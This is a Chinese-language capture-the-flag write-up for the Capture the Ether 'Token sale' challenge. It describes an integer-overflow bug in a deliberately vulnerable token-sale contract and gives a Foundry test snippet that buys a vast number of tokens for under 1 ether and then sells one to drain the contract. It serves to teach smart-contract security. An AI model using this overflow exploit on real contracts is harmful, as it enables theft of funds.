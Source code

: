 # Token sale

## 题目描述

[原题链接](https://capturetheether.com/challenges/math/token-sale/)

原题目要求 TokenSaleChallenge 合约的 ether 余额小于 1 ether。参与过程分成两步，第一步使用 ether 购买 token，第二步卖出 token。

## 运行

**安装 Foundry**

根据 [Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Math/Token_sale -vvv
```

## 功能简述

TokenSaleChallenge 里面 buy 和 sell 的 token 价格都相同，常规办法无法使得合约的 ether balance 降低。

在原题 `^0.4.21` 版本下，所有的算术操作都是 unchecked，因此为了能够复现这个 Challenge，我给 buy 里面的某一行增加了 unchecked。

解决思路是，我们设置一个 numtokens，使得 `numTokens * PRICE_PER_TOKEN` 向上溢出，这样我们就花费了少量的 ether 得到了大量的 token。

`UINT256_MAX / 1 ether + 1` 这个值相当于 UINT256_MAX 按照十进制右移 18 位再加 1。这样它乘以 1 ether 后肯定溢出，并且能够保证溢出后的数 val 小于 1 ether。

```solidity
        uint256 val;
        unchecked {
            val = (UINT256_MAX / 1 ether + 1) * 1 ether;
        }

        vm.startPrank(hacker);
        tokenSaleChallenge.buy{value: val}(UINT256_MAX / 1 ether + 1);

        emit log_named_uint("my new balance", hacker.balance);
        emit log_named_uint("tokenSaleChallenge balance", address(tokenSaleChallenge).balance);

        tokenSaleChallenge.sell(1);
        vm.stopPrank();
```